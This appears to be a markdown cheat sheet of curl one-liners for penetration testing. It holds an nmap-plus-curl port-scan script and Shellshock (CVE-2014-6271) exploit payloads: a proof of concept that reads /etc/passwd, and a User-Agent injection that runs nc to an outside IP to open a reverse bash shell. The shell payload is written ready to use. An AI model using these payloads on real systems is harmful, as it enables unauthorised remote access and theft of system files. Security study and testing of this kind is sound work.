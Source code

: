 # curl 

### Browse other oneliners from cheat.sh

```sh
curl cheat.sh/<command-to-search>
```


### Scan

```sh
#!/bin/bash

if [ $# == 0 ] ; then
    echo "Usage: ./curlScan.sh <IP ADDRESS>"
    exit 1;
fi

echo "Starting Curl Scan"
echo "Scanning for open ports:"
nmap -Pn -sS -T 4 "$1" -p- | grep "^[0-9]" | cut -d "/" -f1 | tee /tmp/portList
echo "Now attempting to retrieve information:"
while read line; do
        echo "Results for $line:"
        timeout 1 curl "$1":"$line"
        if [ $? -eq 124 ]; then
                echo "  "
        fi
done < /tmp/portList

echo "Curl Scan Terminated"
rm /tmp/portList
```


### Shellshock == CVE-2014-6271

#### Classic PoC
```sh
curl -H "User-Agent: () { :; }; /bin/command" http://example.com/
() {:;}; /bin/cat /etc/passwd
```

#### Reverse Shell
```sh
curl -H "User-Agent: () { :;};echo content-type:text/plain;echo;/bin/nc 51.75.29.235 2222 -e /bin/bash;echo;exit" http://vuln.com/script.cgi
```

### Get your external IP address
```sh
curl ifconfig.me
```
